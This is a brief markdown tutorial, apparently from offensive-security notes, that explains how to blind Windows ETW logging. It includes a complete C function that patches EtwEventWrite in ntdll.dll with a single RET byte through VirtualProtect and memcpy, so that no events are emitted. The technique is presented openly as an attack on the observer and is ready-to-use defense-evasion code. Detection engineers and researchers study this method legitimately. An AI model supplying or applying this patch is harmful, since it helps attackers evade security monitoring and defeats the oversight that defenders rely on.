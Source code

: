 The goal is to **break the log transmission chain to ETW** by **patching the functions responsible for sending events**.

This is an **attack on the observer itself**.

**Main target: `EtwEventWrite`**

## What is it?

`EtwEventWrite` is a function located in `ntdll.dll` that is used to **emit events to ETW**.

When a NT call generates an event (e.g., `NtCreateThreadEx`, `VirtualProtect`, etc.), it’s **not the NT call itself** that sends the event — it’s an **internal call to `EtwEventWrite`** that does.

## **Classic patch = RET**

We replace the beginning of `EtwEventWrite` with a **`RET` instruction**, causing any attempt to call it to **return immediately and do nothing**.

## SIMPLE EXAMPLE:

```C
void PatchETW() {
    void* etw = GetProcAddress(GetModuleHandleA("ntdll.dll"), "EtwEventWrite");
    DWORD oldProtect;
    BYTE patch[] = { 0xC3 }; // RET instruction

    VirtualProtect(etw, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(etw, patch, sizeof(patch));
    VirtualProtect(etw, sizeof(patch), oldProtect, &oldProtect);
}
```
